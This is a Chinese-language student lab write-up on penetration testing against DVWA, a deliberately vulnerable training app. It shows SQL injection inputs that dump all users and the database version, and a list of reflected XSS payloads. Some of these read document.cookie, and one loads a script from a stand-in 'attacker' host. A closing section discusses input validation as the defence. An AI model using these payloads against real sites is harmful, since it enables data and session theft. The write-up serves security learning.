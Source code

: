 # 渗透测试

## 环境搭建

直接使用了[在线版本DVWA](https://www.vulnspy.com/dvwa/)直接面去了环境搭建之苦. ~~(白下了好久的OWASP_Broken_Web_Apps_VM_1.2,又卡又没用.)~~

![Alt](/Users/XYJ/Downloads/奇怪的知识增加了.jpeg)

## SQL注入测试

简单来讲SQL注入就是采用一些SQL语句上检查的漏洞来进行攻击.采用特殊的输入来对数据库的数据进行查询和修改.比如正常来说,我们只能按照当前用户的ID查找到对应的内容.例如输入1则只能获取对应1的用户的信息.



![](./pic/Screen Shot 2020-04-06 at 4.49.46 PM.png)

但是通过对SQL语句进行特殊的测试和修改我们可以得到额外的内容.例如输入1'or'1'='1,我们可以查询到所有用户的信息.



![](./pic/Screen Shot 2020-04-06 at 4.50.11 PM.png)

另外的通过适当的修改语句,我们还可以查到非当前功能应该返回的值.例如输入1' and 1=2 union select version(),database() -- 我们可以查询到当前数据库的版本等.



![](./pic/Screen Shot 2020-04-06 at 4.50.57 PM.png)



## 跨站脚本攻击测试

跨站脚本攻击共分为三类反射型（Reflected）、存储型（Stored）、DOM型.原理是采用html文本中的具体漏洞来添加弹窗甚至是查询新的信息.这里我们只对反射型的跨站脚本进行实验.

准备好对应的攻击文本.并输入对应的文本框就可以得到如下的内容.

```xml
<script>alert(123)</script>
<script>javascript:alert(document.cookie);</script>
<input onfocus="javascript:alert(document.cookie)" />
<script src="http://attacker/xss.js">confirm(123)</script>
<img src="http://www.baidu.com" onmouseover=prompt(123) />
```

![](./pic/Screen Shot 2020-04-06 at 5.05.42 PM.png)





## 如何防范

对应的DVMA有安全性选择,我查看了一下对应的DVMA下不同安全等级的代码规范, 更高级的代码对应的对输入的条件约束更详细,并且对应的逻辑更为的紧密.这个是我们今后设计开发要考虑到的部分.也即设计更为严谨的代码输入规范.



## 参考资料

[在线环境](https://www.vsplate.com/labs.php)

[SQL注入之DVWA平台测试mysql注入](https://www.cnblogs.com/saryli/p/5883915.html)

[DVWA之跨站脚本攻击漏洞测试01-反射型XSS](https://www.jianshu.com/p/c6ed01e6f905)

